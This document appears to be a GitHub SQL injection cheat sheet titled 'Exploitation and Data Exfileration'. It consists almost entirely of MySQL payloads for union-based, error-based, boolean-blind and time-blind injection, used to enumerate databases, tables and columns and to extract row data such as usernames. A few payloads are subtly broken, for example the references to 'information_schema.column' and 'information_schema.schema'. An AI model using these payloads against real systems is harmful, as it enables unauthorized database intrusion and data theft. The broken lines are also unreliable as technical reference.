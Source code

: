 # Exploitation and Data Exfileration

 # UNION BASED

Database Name
```
UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11
```
Table Name
```
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),3,4,5,6,7,8,9,10,11
```

Column name
```
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='carts' limit 1,1),3,4,5,6,7,8,9,10,11

UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1),3,4,5,6,7,8,9,10,11
```

# ERROR BASED

Database Name
```
extractvalue(rand(),concat(1,(database())))
```
Table Name
```
extractvalue(rand(),concat(1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1)))
```
Column Name 
```
extractvalue(rand(),concat(1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1)))
```

# BOOLEAN BASED

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND SUBSTRING(database(),1,1)='b'
```

Table Name
```
AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),1,1)='c'
```
Column Name 
```
AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='cedvelinadi' LIMIT 1,1),1,1)='c'
```
Data
```
AND SUBSTRING((SELECT uname FROM users LIMIT 0,1),1,1)='t'
```
Speed up ....
![68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966](https://github.com/azar-malikov/SQLi_cheatsheet/assets/103067933/5be75e82-2665-470f-9266-0983ae02ab31)

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND (ascii(substr((select database()),1,1))) > 110 --+
```

Table Name Size
```
AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+
```

Table Name
```
AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+
```

Column Name Size

```
AND (length((select column_name from information_schema.columns where table_name='cedvelinadi' limit 0,1))) = 4 --+
```

Column Name 
```
AND (ascii(substr((select column_name from information_schema.columns where table_name='cedvelinadi' limit 4,1) ,1,1))) > 114 --+
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```


# TIME BASED
Database Name size enumeration
```
AND IF(length(database()),SLEEP(2),2) = 15 --+
```

Database Name
```
AND IF((SELECT database()) LIKE "",sleep(10),NULL)--
```

Table Name Size
```
AND IF(length((select table_name from information_schema.tables where table_schema=database()),SLEEP(2),2) = 15 --+

```

Table Name
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name Size
```
AND IF(length((select table_name from information_schema.column WHERE table_name='cedvelinadi'),SLEEP(2),2) = 15 --+
```
Column Name
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.schema WHERE table_name='cedvelinadi' LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

SPEED UP IN ASCII

Database Name

```
AND IF(((ascii(substr(Database(),1,1)))) > 95,sleep(10),NULL)--
```

Table Name 
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name 
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.columns LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND IF(((ascii(substr((select sutununadi from cedvelinadi limit 3,1),1,1)))) > 95,sleep(10),NULL)--
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```
